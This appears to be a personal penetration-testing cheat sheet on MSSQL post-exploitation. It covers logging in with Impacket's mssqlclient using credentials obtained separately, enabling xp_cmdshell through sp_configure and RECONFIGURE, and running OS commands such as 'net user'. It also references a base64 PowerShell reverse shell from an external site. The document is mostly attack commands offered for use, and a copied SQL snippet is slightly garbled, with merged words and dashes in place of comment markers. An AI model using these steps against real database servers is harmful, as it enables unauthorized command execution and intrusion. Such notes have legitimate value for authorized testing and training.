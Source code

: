 # MsSQL

## Impacket mssqlclient.py
On Kali it is installed as `impacket-mssqlclient`
I used it after obtaining credentials another way
```
impacket-mssqlclient [[domain/]username[:password]@]<targetName or address> -windows-auth
```
After authenticating
```
enable_xp_cmdshell
RECONFIGURE
xp_cmdshell <command to execute>

# Simple reverse shell
# https://www.revshells.com/
# PowerShell #3 (Base64)
```
More advanced way to turn on xp_cmdshell
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
```
EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell
first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv
```
